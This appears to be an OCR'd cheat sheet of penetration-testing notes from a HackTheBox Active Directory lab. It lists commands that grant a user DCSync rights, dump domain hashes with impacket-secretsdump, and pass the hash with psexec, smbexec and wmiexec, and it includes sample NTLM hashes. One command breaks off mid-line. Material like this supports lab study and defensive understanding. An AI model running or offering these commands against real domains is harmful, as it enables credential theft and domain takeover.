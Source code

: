 ```{=html}
<!-- -->
```
-   \$SecPassword = ConvertTo-SecureString \'P@ssw0rd\' -AsPlainText
    > -Force

```{=html}
<!-- -->
```
-   \$Cred = New-Object
    > System.Management.Automation.PSCredential(\'HTB.local\\pwnt\',
    > \$SecPassword)

```{=html}
<!-- -->
```
-   Add-DomainObjectAcl -Credential \$Cred -TargetIdentity
    > \"DC=htb,DC=local\" -PrincipalIdentity pwnt -Rights DCSync

```{=html}
<!-- -->
```
-   **impacket-secretsdump htb.local/pwnt:\'P@ssw0rd\'@10.10.10.161**

```{=html}
<!-- -->
```
-   **impacket-psexec \"administrator\"@10.10.10.161 -hashes
    > ad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6**

# 

# Lateral Movement in Active Directory

## psexec - smbexec - wmiexec - atexec

Here we can pass the credentials or even hash, depending on what we have

psexec.py \<domain\>/\<user\>:\<password1\>@\<IP\>

\# the user should have write access to Admin share then only we can get
sesssion

psexec.py -hashes
\'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff\'
-dc-ip 10.10.10.175 administrator@10.10.10.175

#we passed full hash here

smbexec.py \<domain\>/\<user\>:\<password1\>@\<IP\>

smbexec.py -hashes
aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 \<dom

#we passed full hash here

wmiexec.py \<domain\>/\<user\>:\<password1\>@\<IP\>
